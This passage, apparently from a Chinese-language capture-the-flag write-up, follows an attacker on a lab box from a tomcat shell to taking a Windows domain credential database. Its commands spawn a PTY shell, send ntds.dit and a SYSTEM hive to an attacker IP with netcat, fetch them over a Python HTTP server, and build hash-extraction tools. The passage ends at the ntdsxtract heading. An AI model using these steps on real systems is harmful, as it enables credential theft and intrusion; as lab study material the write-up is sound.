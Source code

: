 `python -c 'import pty;pty.spawn("/bin/bash")'` 于是获得一个bash shell。

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/12.PNG)

- find . -name "user.txt" 2>/dev/null
`/home/atanas/user.txt` 无读取选项

## 用户提权
经过之前步骤，我们获得了一个tomcat用户权限的shell，可以看到有一些文件是不允许访问的。接下来看看如何获取root权限。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/8.PNG)

`cd /home/tomcat/to_archive/pentest_data`

在用户家目录下，发现一个ntds.dit文件。以前没做过域渗透，(⊙﹏⊙)稍微去了解了下，ntds.dit即目录数据库，用于windows域。

### 文件传输
将那两个文件用nc发送到攻击机本地
```
kali:   nc -lvnp 443 > SYSTEM
shell:  nc 10.10.14.5 443 <  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
kali:   file
```
同样的方式，把另一个文件用ntds.dit作为文件名传送到本地

### 方法二：

发现nc传输，当文件大时，十分不方便

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/2.PNG)

远程shell：python -m SimpleHTTPServer 7788
本地kali：
```
wget http://10.10.10.55:7788/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
wget http://10.10.10.55:7788/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
```
## 工具介绍

### 安装
简而言之，下面的工具就是用来提取目录数据库中保存的hash的。

#### libesedb
```
git clone https://github.com/libyal/libesedb.git
cd libesedb/

apt-get install git autoconf automake autopoint libtool pkg-config build-essential

./synclibs.sh
./autogen.sh
./configure 将源代码编译
make
make install
ldconfig
```
#### ntdsxtract
